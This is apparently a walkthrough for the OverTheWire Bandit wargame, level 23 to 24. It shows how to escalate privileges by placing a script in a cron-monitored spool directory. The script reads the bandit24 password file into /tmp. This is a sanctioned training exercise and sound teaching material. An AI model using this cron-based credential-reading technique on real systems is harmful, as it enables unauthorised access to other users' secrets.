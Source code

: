 ### Bandit Level 23 → Level 24

#### **Goal**

Gain access to the password for Bandit Level 24.

#### **Commands**

`chmod`, `cron`, `crontab`

-----

### **Walkthrough**

1.  **Examine the Cron Job**: First, view the contents of the `cronjob_bandit24` file in `/etc/cron.d/` to see what command is being executed.

    ```bash
    bandit23@bandit:~$ cat /etc/cron.d/cronjob_bandit24
    ```

2.  **Analyze the Script**: The output will show that the `bandit24` user executes a script at `/usr/bin/cronjob_bandit24.sh`. View the script's contents.

    ```bash
    bandit23@bandit:~$ cat /usr/bin/cronjob_bandit24.sh
    ```

    The script changes its directory to `/var/spool/bandit24/foo/` and looks for files owned by the `bandit23` user. If it finds one, it executes it with a 60-second timeout, then deletes it.

3.  **Create an Exploit Script**: Create a temporary shell script in `/tmp/` that will read the `bandit24` password and save it to a file you can access.

    ```bash
    echo "cat /etc/bandit_pass/bandit24 > /tmp/my_password_file" > /tmp/getpass.sh
    chmod +x /tmp/getpass.sh
    ```

4.  **Move the Script and Wait**: Copy your script to the directory monitored by the cron job. Wait a minute for the cron job to run your script and create the password file.

    ```bash
    cp /tmp/getpass.sh /var/spool/bandit24/foo/
    ```

5.  **Retrieve the Password**: After the cron job has run, the password will be in the `/tmp/my_password_file` file.

    ```bash
    bandit23@bandit:~$ cat /tmp/my_password_file
    ```
**Reference Screenshot for this level:**
![](screenshots/command.png)
